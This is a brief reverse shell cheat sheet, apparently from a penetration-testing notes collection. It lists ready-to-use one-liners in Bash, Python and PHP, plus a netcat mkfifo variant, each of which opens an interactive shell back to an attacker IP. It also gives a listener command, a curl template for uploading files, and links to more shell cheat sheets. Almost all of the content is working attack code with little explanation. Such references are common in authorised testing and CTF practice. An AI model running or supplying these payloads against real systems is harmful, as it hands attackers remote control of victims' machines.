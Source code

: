 ### Bash UDP

```bash
Victim:
sh -i >& /dev/udp/10.0.0.1/4242 0>&1

Listener:
nc -u -lvp 4242
```

Don't forget to check with others shell : sh, ash, bsh, csh, ksh, zsh, pdksh, tcsh, bash

## Upload File directly
```bash
curl -X POST -F "submit:<value>" -F "<file-parameter>:@<path-to-file>" <site>
```
To use this method you would first aim to intercept a successful upload (using Burpsuite or the browser console) to see the parameters being used in the upload, which can then be slotted into the above command.

### Python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

### php
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.2/443 0>&1'");
```
### netcat OpenBSD

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```

## References

* [Reverse Bash Shell One Liner](https://security.stackexchange.com/questions/166643/reverse-bash-shell-one-liner)
* [Pentest Monkey - Cheat Sheet Reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [Spawning a TTY Shell](http://netsec.ws/?p=337)
* [Obtaining a fully interactive shell](https://forum.hackthebox.eu/discussion/142/obtaining-a-fully-interactive-shell)
### [Reverse Shell Collection](https://github.com/dayaramb/pentest-tools/tree/master/reverse_shells)
